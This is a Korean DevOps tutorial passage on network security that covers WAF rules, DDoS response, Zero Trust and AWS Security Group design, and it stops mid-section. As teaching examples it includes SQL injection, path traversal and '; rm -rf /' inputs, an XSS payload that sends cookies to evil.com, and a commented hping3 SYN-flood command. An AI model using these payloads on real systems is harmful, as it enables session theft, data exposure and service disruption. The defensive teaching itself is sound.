






# 네트워크 보안 (WAF / DDoS 방어 / Zero Trust)

> 서버를 인터넷에 연결하는 순간 공격이 시작돼요. SQL Injection, XSS, DDoS — 이런 공격을 막지 않으면 데이터 유출, 서비스 다운, 회사 신뢰 하락으로 이어져요. 네트워크를 진단하는 법을 [이전 강의](./08-debugging)에서 배웠으니, 이제 **보호하는 법**을 배워볼게요.

---

## 🎯 이걸 왜 알아야 하나?

```
실무에서 네트워크 보안 관련 업무:
• "서버에 이상한 요청이 엄청 들어와요"     → DDoS? 스캐닝? bot?
• "SQL Injection 공격을 막아야 해요"       → WAF 설정
• "보안 감사에서 Zero Trust를 요구해요"    → 아키텍처 전환
• "Rate Limiting을 넘어서는 공격이에요"    → DDoS 방어 계층
• "VPN 없이 내부 서비스 접근을 관리해야 해요" → Zero Trust
• AWS Security Group / NACL 설정          → 클라우드 네트워크 보안
```

---

## 🧠 핵심 개념

### 비유: 건물 보안 시스템

네트워크 보안을 **건물 보안**에 비유해볼게요.

* **방화벽 (Security Group, NACL, iptables)** = 건물 출입문. 허가된 사람만 들어올 수 있음
* **WAF (Web Application Firewall)** = 건물 내 보안 검색대. 들어온 사람의 가방을 검사해서 위험물을 차단
* **DDoS 방어** = 건물 앞 도로 통제. 수만 명이 한꺼번에 몰려와서 입구를 막는 걸 방지
* **Zero Trust** = "건물 안에 있어도 항상 ID 확인". 내부 사원이라고 무조건 신뢰하지 않음



### 방어 계층 모델 (Defense in Depth)

보안은 한 겹이 아니라 **여러 겹**으로 해야 해요. 하나가 뚫려도 다음 겹이 막아요.



---

## 🔍 상세 설명 — WAF (Web Application Firewall)

### WAF란?

WAF는 HTTP 요청의 **내용**을 검사해서 악성 요청을 차단하는 방화벽이에요. 일반 방화벽(L3/L4)은 IP와 포트만 보지만, WAF는 **L7(HTTP)**에서 동작해요.



### WAF가 막는 공격 종류

| 공격 | 설명 | 예시 |
|------|------|------|
| **SQL Injection** | DB 쿼리에 악성 SQL 삽입 | `?id=1' OR '1'='1` |
| **XSS** | 악성 스크립트 삽입 | `<script>alert('hack')</script>` |
| **Path Traversal** | 서버 파일 접근 | `../../etc/passwd` |
| **Command Injection** | OS 명령어 삽입 | `; rm -rf /` |
| **Bot/Scraping** | 자동화된 대량 요청 | 크롤러, 스캐너 |
| **Protocol Violation** | 비정상 HTTP 요청 | 잘못된 헤더, 초대형 요청 |
| **Scanner Detection** | 취약점 스캐너 차단 | Nmap, Nikto, sqlmap |

```bash
# SQL Injection 공격 예시
# 정상: GET /api/users?id=123
# 공격: GET /api/users?id=123' OR '1'='1' --
#       → DB에서 모든 사용자 정보 유출!

# XSS 공격 예시  
# 정상: POST /comment {"text": "좋은 글이에요"}
# 공격: POST /comment {"text": "<script>document.location='http://evil.com/steal?cookie='+document.cookie</script>"}
#       → 다른 사용자의 쿠키 탈취!

# Path Traversal 예시
# 정상: GET /files/report.pdf
# 공격: GET /files/../../../etc/passwd
#       → 서버의 비밀번호 파일 접근!
```

### AWS WAF 설정

```bash
# AWS WAF 구성 요소:
# Web ACL → Rule Group → Rules → 조건 (Conditions)

# 1. AWS Managed Rules 사용 (가장 쉬움! ⭐)
aws wafv2 create-web-acl \
    --name "myapp-waf" \
    --scope REGIONAL \
    --default-action '{"Allow":{}}' \
    --rules '[
        {
            "Name": "AWS-AWSManagedRulesCommonRuleSet",
            "Priority": 1,
            "Statement": {
                "ManagedRuleGroupStatement": {
                    "VendorName": "AWS",
                    "Name": "AWSManagedRulesCommonRuleSet"
                }
            },
            "OverrideAction": {"None": {}},
            "VisibilityConfig": {
                "SampledRequestsEnabled": true,
                "CloudWatchMetricsEnabled": true,
                "MetricName": "AWSCommonRules"
            }
        },
        {
            "Name": "AWS-AWSManagedRulesSQLiRuleSet",
            "Priority": 2,
            "Statement": {
                "ManagedRuleGroupStatement": {
                    "VendorName": "AWS",
                    "Name": "AWSManagedRulesSQLiRuleSet"
                }
            },
            "OverrideAction": {"None": {}},
            "VisibilityConfig": {
                "SampledRequestsEnabled": true,
                "CloudWatchMetricsEnabled": true,
                "MetricName": "AWSSQLiRules"
            }
        }
    ]'

# 주요 AWS Managed Rule Groups:
# AWSManagedRulesCommonRuleSet    → 일반 웹 공격 (XSS, Path Traversal 등)
# AWSManagedRulesSQLiRuleSet      → SQL Injection
# AWSManagedRulesKnownBadInputsRuleSet → 알려진 악성 입력
# AWSManagedRulesBotControlRuleSet     → 봇 탐지/차단
# AWSManagedRulesAmazonIpReputationList → 악성 IP 차단

# 2. ALB에 WAF 연결
# AWS 콘솔: ALB → Integrations → AWS WAF → Web ACL 선택
# 또는 CLI:
aws wafv2 associate-web-acl \
    --web-acl-arn arn:aws:wafv2:ap-northeast-2:123456:regional/webacl/myapp-waf/xxx \
    --resource-arn arn:aws:elasticloadbalancing:ap-northeast-2:123456:loadbalancer/app/my-alb/xxx
```

### WAF 커스텀 규칙

```bash
# Rate Limiting 규칙 (IP당 5분에 1000개 초과하면 차단)
# → Nginx rate limiting(./07-nginx-haproxy)보다 앞단에서 차단

# 특정 경로 보호
# /admin/* → 특정 IP에서만 접근 허용

# 특정 국가 차단
# GeoMatch: CN, RU에서 오는 요청 차단

# 커스텀 헤더 검사
# X-API-Key 헤더가 없으면 차단

# WAF 로그 확인 (S3 또는 CloudWatch)
# → 차단된 요청의 상세 정보 (IP, URL, 매칭된 규칙)
# → False Positive(정상 요청이 차단된 것) 확인 필수!
```

### Cloudflare WAF

```bash
# Cloudflare는 DNS + CDN + WAF + DDoS 방어를 올인원으로 제공

# 장점:
# ✅ 설정이 매우 쉬움 (대시보드에서 클릭)
# ✅ Managed Rules 자동 업데이트
# ✅ DDoS 방어 기본 포함
# ✅ 무료 플랜에서도 기본 WAF 제공
# ✅ 전 세계 CDN + 보안

# 사용 방법:
# 1. 도메인의 NS를 Cloudflare로 변경
# 2. 대시보드에서 WAF 규칙 활성화
# 3. SSL mode: Full (Strict)로 설정

# Cloudflare vs AWS WAF:
# Cloudflare: 설정 쉬움, DDoS 방어 강력, DNS 관리까지
# AWS WAF: AWS 서비스와 긴밀한 통합, 세밀한 커스텀 가능
# → 둘 다 쓰는 것도 가능! (Cloudflare → ALB + AWS WAF)
```

---

## 🔍 상세 설명 — DDoS 방어

### DDoS란?

**Distributed Denial of Service** — 수만~수백만 대의 장비에서 동시에 요청을 보내서 서비스를 마비시키는 공격이에요.



### DDoS 공격 유형

| 계층 | 공격 | 설명 | 방어 |
|------|------|------|------|
| **L3/L4** | SYN Flood | 대량 SYN 패킷 → 연결 테이블 소진 | SYN cookies, 방화벽 |
| **L3/L4** | UDP Flood | 대량 UDP 패킷 → 대역폭 소진 | 대역폭 필터링, CDN |
| **L3/L4** | ICMP Flood | 대량 ping → 대역폭 소진 | ICMP 차단 |
| **L7** | HTTP Flood | 대량 HTTP 요청 → 앱 서버 과부하 | WAF, Rate Limiting |
| **L7** | Slowloris | 느린 연결을 많이 열어 점유 | 타임아웃 설정 |
| **DNS** | DNS Amplification | DNS 응답을 대상으로 반사 | 소스 IP 검증 |

### DDoS 방어 전략



### AWS DDoS 방어

```bash
# === AWS Shield ===

# Shield Standard (무료, 자동 적용)
# → 모든 AWS 리소스에 기본 적용
# → L3/L4 DDoS 방어 (SYN flood, UDP flood 등)

# Shield Advanced (유료, $3000/월)
# → 더 강력한 방어 + 24/7 DRT(DDoS Response Team) 지원
# → L7 DDoS 방어
# → 비용 보호 (DDoS로 인한 스케일링 비용 면제)
# → 실시간 공격 가시성

# === CloudFront + WAF 조합 (가장 흔한 구성) ===
# CloudFront (CDN) → WAF → ALB → 앱서버
# 
# CloudFront가 하는 일:
# - 전 세계 edge에서 트래픽 흡수
# - 정적 콘텐츠 캐싱 (오리진 부하 감소)
# - TLS 종단 (edge에서)
# - Geographic restriction (특정 국가 차단)
#
# WAF가 하는 일:
# - SQL Injection, XSS 등 L7 공격 차단
# - Rate Limiting
# - Bot 탐지

# === SYN Flood 방어 (Linux 서버 레벨) ===
# (../01-linux/13-kernel 참고)
sudo sysctl net.ipv4.tcp_syncookies=1           # SYN cookies 활성화
sudo sysctl net.ipv4.tcp_max_syn_backlog=65535   # SYN 큐 크기
sudo sysctl net.core.somaxconn=65535             # 연결 큐 크기

# SYN Flood 탐지
ss -tan state syn-recv | wc -l
# 5000 → 비정상! SYN flood 의심

# 공격 IP 확인
ss -tan state syn-recv | awk '{print $5}' | cut -d: -f1 | sort | uniq -c | sort -rn | head
#  2000 185.220.101.42
#  1500 103.145.12.88
```

### DDoS 공격 시 대응 절차

```bash
# === 긴급 대응 체크리스트 ===

# 1. 공격 확인
# - CloudWatch: 요청 수 급증, 5xx 에러 급증
# - 서버: CPU/메모리/네트워크 포화
# - 로그: 대량의 동일한 요청 패턴

# 2. 즉시 조치
# a. CloudFront/Cloudflare가 있으면 → 자동 방어 확인
# b. WAF Rate Limiting 강화
# c. 공격 IP 대역 차단

# 3. 서버 레벨 방어
# iptables로 공격 IP 차단
sudo iptables -A INPUT -s 185.220.101.0/24 -j DROP
sudo iptables -A INPUT -s 103.145.12.0/24 -j DROP

# 또는 ipset으로 대량 IP 차단 (iptables보다 빠름)
sudo apt install ipset
sudo ipset create blacklist hash:net
sudo ipset add blacklist 185.220.101.0/24
sudo ipset add blacklist 103.145.12.0/24
sudo iptables -A INPUT -m set --match-set blacklist src -j DROP

# 4. 스케일링
# Auto Scaling으로 서버 추가
# → 하지만 DDoS 트래픽에 스케일링하면 비용 폭탄!
# → 앞단(CDN, WAF)에서 차단하는 게 우선!

# 5. 사후 분석
# - 공격 패턴 분석 (IP 대역, User-Agent, 요청 패턴)
# - WAF 규칙 강화
# - 방어 체계 개선
```

### Slowloris 방어 (Nginx)

```bash
# Slowloris: 연결을 매우 느리게 유지해서 서버 연결 수를 소진시키는 공격

# Nginx는 기본적으로 Slowloris에 강함 (이벤트 기반이라)
# 하지만 추가 설정으로 더 강화:

# /etc/nginx/nginx.conf
client_header_timeout 10s;     # 헤더 수신 타임아웃 (기본 60s → 10s)
client_body_timeout 10s;       # 바디 수신 타임아웃
send_timeout 10s;              # 응답 전송 타임아웃
keepalive_timeout 15s;         # Keep-Alive 유지 시간 줄이기

# Rate Limiting (./07-nginx-haproxy 참고)
limit_conn_zone $binary_remote_addr zone=conn_limit:10m;
limit_conn conn_limit 20;      # IP당 동시 연결 20개 제한
```

---

## 🔍 상세 설명 — Zero Trust

### 기존 모델 vs Zero Trust



**기존 모델의 문제:**
* VPN으로 내부에 들어오면 모든 곳에 접근 가능
* 내부 공격자(또는 탈취된 계정)에 취약
* 클라우드/원격 근무 환경에서 "내부"의 경계가 모호

**Zero Trust 원칙:**
1. **Never Trust, Always Verify** — 모든 요청은 항상 검증
2. **Least Privilege** — 최소 권한만 부여
3. **Assume Breach** — 이미 침해되었다고 가정하고 방어

### Zero Trust 구현 요소

```bash
# === 1. 마이크로 세그멘테이션 ===
# 서비스 간 통신을 세밀하게 제어
# - K8s NetworkPolicy (../04-kubernetes/15-security 에서 자세히)
# - Security Group을 서비스별로 분리

# 예: 앱 서버는 DB에만, DB는 앱 서버에서만
# SG-app: outbound → SG-db:3306
# SG-db:  inbound ← SG-app:3306
# → 앱 서버가 해킹되어도 다른 서비스에 접근 불가

# === 2. 서비스 간 인증 (mTLS) ===
# (./05-tls-certificate 참고)
# 모든 서비스 간 통신에 mTLS 적용
# → Istio가 자동으로 해줌

# === 3. 사용자 인증 ===
# SSO + MFA (Multi-Factor Authentication)
# - OAuth 2.0 / OIDC
# - 기기 인증 (MDM)
# - 위치/시간 기반 접근 제어

# === 4. 네트워크 접근 ===
# VPN 대신 Zero Trust Network Access (ZTNA)
# - Google BeyondCorp
# - Cloudflare Access
# - Tailscale, WireGuard
# → VPN 없이 특정 서비스에만 접근 가능
```

### AWS에서 Zero Trust 적용

```bash
# 1. Security Group을 세밀하게 설정
# ❌ 하나의 SG에 모든 규칙
# ✅ 서비스별 SG → 서비스 간 최소 권한

# SG: app-server
#   Inbound: SG-alb:80 허용 (ALB에서만)
#   Outbound: SG-db:5432, SG-redis:6379 허용

# SG: database
#   Inbound: SG-app:5432 허용 (앱서버에서만!)
#   Outbound: 없음

# SG: alb
#   Inbound: 0.0.0.0/0:443 허용 (외부에서 HTTPS)
#   Outbound: SG-app:80 허용

# 2. VPC Endpoint로 AWS 서비스 접근 (인터넷 불필요)
# S3, DynamoDB, ECR 등을 VPC 내부에서 직접 접근
# → NAT Gateway 불필요 + 보안 강화

# 3. IAM Role 기반 접근 (사람에게 직접 키 안 줌)
# → EC2에 IAM Role 할당
# → Pod에 IAM Role (IRSA - IAM Roles for Service Accounts)
# → 임시 자격 증명 (STS AssumeRole)

# 4. Systems Manager Session Manager
# → SSH 없이 서버 접속
# → 모든 세션 기록 (CloudTrail + S3)
# → 포트 안 열어도 됨 (bastion 불필요!)

# SSM Session Manager 접속
aws ssm start-session --target i-0abc123def456
# → 브라우저 또는 CLI로 서버 접속
# → SSH 키 불필요, 포트 22 안 열어도 됨!
```

---

## 🔍 상세 설명 — 실전 보안 설정

### AWS Security Group vs NACL

```bash
# 이전에 개념만 배웠는데 (./04-network-structure)
# 실전에서 어떻게 설정하는지 구체적으로 볼게요

# === Security Group (SG) — 인스턴스 레벨 방화벽 ===
# - Stateful: 인바운드 허용하면 아웃바운드 응답은 자동 허용
# - 허용 규칙만 (거부 규칙 없음)
# - 변경 즉시 적용

# 프로덕션 SG 설계 예시:

# [SG: alb-sg]
# Inbound:  0.0.0.0/0 TCP 443 (HTTPS from anywhere)
# Outbound: sg-app TCP 8080

# [SG: app-sg]
# Inbound:  sg-alb TCP 8080 (ALB에서만!)
#           sg-bastion TCP 22 (bastion에서 SSH)
# Outbound: sg-db TCP 5432
#           sg-redis TCP 6379
#           0.0.0.0/0 TCP 443 (외부 API 호출)

# [SG: db-sg]
# Inbound:  sg-app TCP 5432 (앱서버에서만!)
# Outbound: (없음 — stateful이라 응답은 자동)

# [SG: bastion-sg]
# Inbound:  회사IP/32 TCP 22 (회사에서만 SSH)
# Outbound: sg-app TCP 22

# ✅ SG는 다른 SG를 소스로 지정 가능!
# → IP가 바뀌어도 SG 참조라서 유지됨
# → 이게 SG의 가장 강력한 기능!

# === NACL — 서브넷 레벨 방화벽 ===
# - Stateless: 인바운드/아웃바운드 각각 규칙 필요!
# - 허용 + 거부 규칙 모두 가능
# - 규칙 번호 순서대로 평가 (낮은 번호 우선)

# NACL 예시 (퍼블릭 서브넷):
# Inbound:
#  100  ALLOW  TCP  443   0.0.0.0/0    (HTTPS)
#  110  ALLOW  TCP  80    0.0.0.0/0    (HTTP)
#  120  ALLOW  TCP  22    203.0.113.0/24 (회사 IP SSH)
#  130  ALLOW  TCP  1024-65535  0.0.0.0/0  (임시 포트 — 응답용!)
#  *    DENY   ALL  ALL   0.0.0.0/0    (나머지 거부)

# Outbound:
#  100  ALLOW  TCP  443   0.0.0.0/0    (HTTPS 응답)
#  110  ALLOW  TCP  80    0.0.0.0/0    (HTTP 응답)
#  120  ALLOW  TCP  1024-65535  0.0.0.0/0  (임시 포트 — 요청 응답!)
#  *    DENY   ALL  ALL   0.0.0.0/0

# ⚠️ NACL에서 가장 많이 실수하는 것:
# Stateless라서 아웃바운드에 임시 포트(1024-65535)를 허용 안 하면
# 응답이 나가지 않아서 "연결이 안 돼요!" 발생!
```

**SG vs NACL 비교:**

| 항목 | Security Group | NACL |
|------|---------------|------|
| 레벨 | 인스턴스 (ENI) | 서브넷 |
| Stateful | ✅ (응답 자동) | ❌ (각각 규칙 필요) |
| 규칙 타입 | 허용만 | 허용 + 거부 |
| 규칙 평가 | 모든 규칙 평가 | 번호 순서 (첫 매칭) |
| 적용 | 인스턴스에 할당 | 서브넷에 자동 적용 |
| SG 참조 | ✅ (다른 SG를 소스로) | ❌ (IP/CIDR만) |
| 실무 사용 | ⭐⭐⭐⭐⭐ | ⭐⭐ (추가 방어용) |

```bash
# 실무 추천:
# SG로 주로 관리 (99% 케이스)
# NACL은 추가 방어층으로만 (기본값 사용 + 필요시 특정 IP 차단)

# ❌ SG와 NACL에 같은 규칙을 중복 → 관리 복잡
# ✅ SG를 주 방어선, NACL은 서브넷 단위 차단(긴급 IP 차단 등)만
```

### SSH 보안 강화

```bash
# /etc/ssh/sshd_config (../01-linux/10-ssh 에서 기본은 다뤘고 보안 강화)

# 1. 비밀번호 인증 비활성화
PasswordAuthentication no

# 2. root 로그인 차단
PermitRootLogin no

# 3. 키 인증만 허용
PubkeyAuthentication yes

# 4. 특정 사용자만 허용
AllowUsers ubuntu deploy

# 5. 포트 변경 (선택, 스캐닝 회피)
# Port 2222

# 6. 인증 시도 제한
MaxAuthTries 3
LoginGraceTime 30

# 7. X11/Agent 포워딩 비활성화 (불필요하면)
X11Forwarding no
AllowAgentForwarding no

# 8. 접속 로그 강화
LogLevel VERBOSE

# 적용
sudo sshd -t && sudo systemctl reload sshd

# SSH 접속 모니터링
# 실패 시도 확인
grep "Failed password\|Invalid user" /var/log/auth.log | tail -10

# 성공한 접속 확인
grep "Accepted" /var/log/auth.log | tail -10

# fail2ban으로 자동 차단
sudo apt install fail2ban
# → SSH 로그인 실패가 반복되면 자동으로 IP 차단!

# fail2ban 설정 확인
sudo fail2ban-client status sshd
# Status for the jail: sshd
# |- Filter
# |  |- Currently failed: 3
# |  |- Total failed:     150
# |  `- File list:        /var/log/auth.log
# `- Actions
#    |- Currently banned: 5
#    |- Total banned:     25
#    `- Banned IP list:   185.220.101.42 103.145.12.88 ...

# 차단된 IP 확인
sudo fail2ban-client status sshd | grep "Banned IP"
# Banned IP list: 185.220.101.42 103.145.12.88
```

---

## 💻 실습 예제

### 실습 1: 공격 시뮬레이션과 방어

```bash
# ⚠️ 자신의 서버에서만 테스트하세요! 타인 서버 공격은 불법!

# 1. SQL Injection 시뮬레이션 (공격이 어떻게 보이는지)
# 정상 요청:
curl "http://localhost:8080/api/users?id=1"
# {"user": {"id": 1, "name": "alice"}}

# SQL Injection 시도:
curl "http://localhost:8080/api/users?id=1'%20OR%20'1'='1"
# WAF가 있으면 → 403 Forbidden
# WAF가 없으면 → 모든 사용자 데이터가 나올 수 있음!

# 2. Rate Limiting 테스트
for i in $(seq 1 50); do
    code=$(curl -s -o /dev/null -w "%{http_code}" http://localhost:8080/api/data)
    [ "$code" = "429" ] && echo "요청 $i: 429 (차단!)" && break
    echo "요청 $i: $code"
done

# 3. SYN Flood 시뮬레이션 (테스트 환경에서만!)
# hping3 --flood --rand-source -S -p 80 localhost
# → 절대 프로덕션이나 타인 서버에 하지 마세요!

# SYN 상태 모니터링
watch -n 1 'ss -tan state syn-recv | wc -l'
```

### 실습 2: fail2ban 설정

```bash
# 1. 설치
sudo apt install fail2ban

# 2. SSH jail 설정
cat << 'EOF' | sudo tee /etc/fail2ban/jail.local
[sshd]
enabled = true
port = ssh
filter = sshd
logpath = /var/log/auth.log
maxretry = 5          # 5번 실패하면
findtime = 600        # 10분 안에
bantime = 3600        # 1시간 차단
EOF

# 3. 시작
sudo systemctl enable --now fail2ban

# 4. 상태 확인
sudo fail2ban-client status
# Number of jail: 1
# Jail list: sshd

sudo fail2ban-client status sshd

# 5. 수동으로 IP 차단/해제
sudo fail2ban-client set sshd banip 203.0.113.100
sudo fail2ban-client set sshd unbanip 203.0.113.100

# 6. 로그 확인
tail -20 /var/log/fail2ban.log
# INFO [sshd] Ban 185.220.101.42
# INFO [sshd] Unban 185.220.101.42 (bantime 만료)
```

### 실습 3: Security Group 설계 연습

```bash
# 종이에 그려보는 연습 (AWS 콘솔에서 실습 가능)

# 구성:
# ALB → 앱서버 2대 → RDS (PostgreSQL)
# Bastion → 앱서버 SSH

# SG 설계:
# 1. sg-alb:     in: 0.0.0.0/0:443, out: sg-app:8080
# 2. sg-app:     in: sg-alb:8080, sg-bastion:22, out: sg-db:5432, 0.0.0.0/0:443
# 3. sg-db:      in: sg-app:5432
# 4. sg-bastion:  in: 회사IP:22, out: sg-app:22

# 검증 질문:
# Q: 외부에서 DB에 직접 접근 가능? → ❌ sg-db는 sg-app에서만
# Q: 앱서버에서 인터넷 접속 가능? → ✅ out: 0.0.0.0/0:443
# Q: bastion에서 DB에 접근 가능? → ❌ sg-db는 sg-app만 허용
```

---

## 🏢 실무에서는?

### 시나리오 1: DDoS 공격 긴급 대응

```bash
# 1. 공격 감지
# CloudWatch 알림: "5xx 에러율 50% 초과!"
# 서버: CPU 100%, 네트워크 포화

# 2. 즉시 확인
# Nginx 접속 로그
awk '{print $1}' /var/log/nginx/access.log | sort | uniq -c | sort -rn | head -5
#  50000 185.220.101.42       ← 한 IP에서 5만 요청!
#  30000 103.145.12.88
#  20000 45.227.254.20
#   1000 203.0.113.50         ← 정상 사용자

# 3. 긴급 차단
# 방법 1: iptables
sudo iptables -A INPUT -s 185.220.101.0/24 -j DROP
sudo iptables -A INPUT -s 103.145.12.0/24 -j DROP

# 방법 2: Nginx deny
# location / {
#     deny 185.220.101.0/24;
#     deny 103.145.12.0/24;
#     allow all;
# }

# 방법 3: AWS WAF Rate Limiting 강화
# 5분에 100개 → 5분에 20개로 임시 강화

# 4. Cloudflare가 있으면
# "Under Attack Mode" 활성화
# → JavaScript 챌린지로 봇 자동 차단

# 5. 사후 분석
# - 공격 패턴 분석 (User-Agent, 요청 패턴)
# - WAF 규칙에 패턴 추가
# - 향후 방어 계획 수립
```

### 시나리오 2: WAF False Positive 처리

```bash
# "정상 요청인데 WAF가 차단해요!"
# → False Positive (오탐)

# 1. WAF 로그에서 차단된 요청 확인
# AWS WAF 로그 (S3 또는 CloudWatch):
# {
#   "action": "BLOCK",
#   "terminatingRuleId": "AWSManagedRulesCommonRuleSet",
#   "ruleGroupList": [
#     {
#       "terminatingRule": {
#         "ruleId": "CrossSiteScripting_BODY"  ← XSS 규칙에 걸림
#       }
#     }
#   ],
#   "httpRequest": {
#     "uri": "/api/posts",
#     "body": "content=<b>Hello</b>"  ← HTML 태그가 XSS로 오탐!
#   }
# }

# 2. 해결: 특정 규칙을 Count 모드로 변경 (차단 안 하고 로그만)
# AWS 콘솔: WAF → Web ACL → 규칙 → Override → Count

# 또는 특정 경로에서만 규칙 제외
# Scope-down statement: URI가 /api/posts일 때만 XSS 규칙 제외

# 3. 앱 레벨에서 입력 검증 강화 (WAF에만 의존하지 않기!)
# → 입력 값을 escape 처리
# → Content Security Policy 헤더 추가
```

### 시나리오 3: Zero Trust 마이그레이션

```bash
# "VPN 기반에서 Zero Trust로 전환해야 해요"

# 단계별 마이그레이션:

# 1단계: SSM Session Manager 도입 (SSH 대체)
# → bastion host 제거
# → 포트 22 차단 가능
# → 모든 접속이 CloudTrail에 기록

# 2단계: SG를 서비스별로 세분화
# → 하나의 큰 SG → 서비스별 SG로 분리
# → SG 참조로 서비스 간 최소 권한

# 3단계: IAM Role 기반 접근
# → 서버에 키 대신 IAM Role
# → Pod에 IRSA
# → 임시 자격 증명 (STS)

# 4단계: 서비스 간 mTLS
# → Istio 도입
# → 모든 서비스 간 통신 암호화 + 상호 인증

# 5단계: 사용자 접근 ZTNA
# → VPN 대신 Cloudflare Access 또는 Tailscale
# → SSO + MFA 필수
# → 기기 인증, 위치 기반 접근 제어
```

---

## ⚠️ 자주 하는 실수

### 1. WAF를 켜놓기만 하고 로그를 안 봄

```bash
# ❌ WAF를 켜놓고 "보안 완료!" → False Positive으로 정상 사용자 차단 중
# ❌ 공격이 차단되는지 확인도 안 함

# ✅ WAF 로그를 주기적으로 확인
# → Block/Count 비율 모니터링
# → False Positive 없는지 확인
# → 새로운 공격 패턴 확인
```

### 2. Security Group에 0.0.0.0/0 남발

```bash
